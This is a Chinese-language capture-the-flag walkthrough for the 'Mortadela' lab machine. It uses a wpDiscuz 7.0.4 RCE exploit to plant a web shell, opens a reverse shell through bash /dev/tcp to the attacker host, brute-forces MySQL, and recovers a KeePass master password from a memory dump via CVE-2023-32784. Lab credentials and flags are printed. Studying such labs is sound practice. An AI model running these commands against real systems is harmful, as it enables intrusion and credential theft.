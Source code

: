 # Mortadela

2025.03.07 https://thehackerslabs.com/mortadela/

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

80 web 发现 wordpress http://192.168.5.39/wordpress/ , 先 wpscan 枚举用户、主题、插件。

```
wpscan -e u,ap,at,tt,cb --plugins-detection mixed --url http://192.168.5.39/wordpress/
```

枚举到一个用户 mortadela ， wpdiscuz 7.0.4 存在未授权的 RCE 漏洞 https://www.exploit-db.com/exploits/49967 进行利用(首页上找到 Hello world! 的地址)：

```
python3 49967.py -u http://192.168.5.39/wordpress -p /index.php/2024/04/01/hola-mundo/
```

上传了 web shell : http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php , pass 为 cmd 。 进行连接验证：

```
curl http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php?cmd=ls
```

可以访问，直接反弹 shell：

```
curl -G --data-urlencode 'cmd=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.39/wordpress/wp-content/uploads/2025/03/kyeeokpkslauami-1741335246.7189.php
```

先看 wp-config.php 文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolalolitalola' );
define( 'DB_HOST', 'localhost' );
```

上面的数据库密码不是用户 mortadela 的密码。

在 /opt 中发现 muyconfidencial.zip , 有密码，下载到 kali 上 john 破解，zip 解压密码 pinkgirl ， 得到 keeppass 文件，john 不能爆出密码。 再看 KeePass.DMP 文件，不能拿到 kdbx 文件的密码。

现在没有其他方向，还有一个 mysql 3306 的开放端口，看看能不能爆破到 root 用户的密码，有可能在数据库中有密码信息：

```
[3306][mysql] host: 192.168.5.39   login: root   password: cassandra
```

登陆数据库，发现数据库 confidencial :

```
MariaDB [confidencial]> select * from usuarios;
+-----------+------------------+
| usuario   | contraseña       |
+-----------+------------------+
| mortadela | Juanikokukunero8 |
+-----------+------------------+
```

拿到了 mortadela 的 ssh 登陆密码 Juanikokukunero8 ，先读到了 user flag:

```
mortadela@mortadela:~$ cat user.txt
sajferoifgvpcnsorvn
```

下面要解决 keepass 的 dmp 文件，找到密码。2023 年 5 月 10 日，发现了一个高风险漏洞 ( CVE-2023-32784 )。此漏洞允许有权访问运行 KeePass 的系统的攻击者通过分析内存转储来提取数据库的主密码，从而利用此漏洞。

见详细解释: https://www.cyberis.com/article/exploiting-keepass-cve-2023-32784 和 https://github.com/vdohney/keepass-password-dumper

NET 7 installation instructions for Linux:

```
~# curl -Lo dotnet.tar.gz https://download.visualstudio.microsoft.com/download/pr/f5c74056-330b-452b-915e-d98fda75024e/18076ca3b89cd362162bbd0cbf9b2ca5/dotnet-sdk-7.0.100-rc.2.22477.23-linux-x64.tar.gz
~# mkdir dotnet
~# tar -C dotnet -xf dotnet.tar.gz
~# rm dotnet.tar.gz
~# export DOTNET_ROOT=~/dotnet
~# export PATH=$PATH:~/dotnet
~# dotnet --version
7.0.100-rc.2.22477.23
```

使用这个漏洞脚本进行利用: https://github.com/matro7sh/keepass-dump-masterkey , 其中前 2 个字符不准确，需要进行枚举，使用 crunch 进行枚举(以 ritrini12345 为基础，前面增加两个枚举的字符)：

```
python3 poc.py -d KeePass.DMP
2025-03-07 20:36:16,582 [.] [main] Opened KeePass.DMP
Possible password: ●aritrini12345
Possible password: ●Dritrini12345
Possible password: ●\ritrini12345
Possible password: ●#ritrini12345
Possible password: ●yritrini12345
Possible password: ●kritrini12345
Possible password: ●9ritrini12345
Possible password: ●;ritrini12345
Possible password: ●Hritrini12345
Possible password: ●[ritrini12345
Possible password: ● ritrini12345
Possible password: ●fritrini12345
```

```
crunch 14 14 -f /usr/share/crunch/charset.lst mixalpha-numeric -t @@ritrini12345 -o pass.txt

Maritrini12345
```

使用密码 Maritrini12345 打开 keepass 文件，拿到 root 的登陆密码 Juanikonokukunero 拿到 root flag：

```
root@mortadela:~# cat root.txt
aiugfurebaoergivthneioerv
```
